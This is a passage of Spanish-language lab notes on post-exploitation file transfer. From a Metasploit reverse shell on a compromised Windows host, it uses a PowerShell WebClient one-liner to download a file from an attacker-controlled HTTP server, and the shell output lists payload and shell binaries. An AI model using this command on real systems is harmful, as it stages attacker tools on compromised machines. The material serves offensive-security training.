Vemos que efectivamente se nos guardo en el escritorio, ya que le indicamos con la segunda ruta que nos lo guarde con ese nombre y en esa ubicacion.

En el servidor de `python` veremos algo asi:

```
192.168.5.209 - - [12/Feb/2025 06:05:24] "GET /test.txt HTTP/1.1" 200 -
```

Vemos que la maquina `WS02` realizo una peticion a este server y que se descargo el archivo satisfactoriamente con un `200 Ok`.

Ahora vamos a eliminar el archivo `test.txt` de la maquina `WS02` y vamos a repetir la tecnica pero desde una terminal con una `shell remota` que tenemos en `metasploit`.

Como en la `shell` que hemos obtenido `reversa` tendremos un `CMD` tendremos que invocar un `PowerShell` de la siguiente forma para pasarnos el archivo:

```cmd
powershell -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.5.205:8000/test.txt', 'C:\Users\empleado2\Desktop\test.txt')"
```

Info:

```
powershell -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.5.205:8000/test.txt', 'C:\Users\empleado2\Desktop\test.txt')"

C:\Users\empleado2\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: EC04-B2C8

 Directorio de C:\Users\empleado2\Desktop

12/02/2025  12:14    <DIR>          .
12/02/2025  12:14    <DIR>          ..
05/01/2025  19:09             2.350 Microsoft Edge.lnk
05/01/2025  11:59         1.174.016 Microsoft.ActiveDirectory.Management.dll
11/02/2025  10:27    <DIR>          ncat-portable-5.59BETA1
07/02/2025  11:17             5.120 payload.dll
08/02/2025  13:07         2.035.665 Powerfull-fud.exe
12/02/2025  12:14                16 test.txt
06/02/2025  10:07             7.680 testshell.exe
               6 archivos      3.224.847 bytes
               3 dirs  21.116.174.336 bytes libres

C:\Users\empleado2\Desktop>type test.txt
type test.txt
texto de prueba
```

Y como vemos funciono correctamente.

Con una maquina `linux` se podria hacer igual pero con otros comando y herramientas, por ejemplo una muy utilizada seria con `curl` o con `wget`:

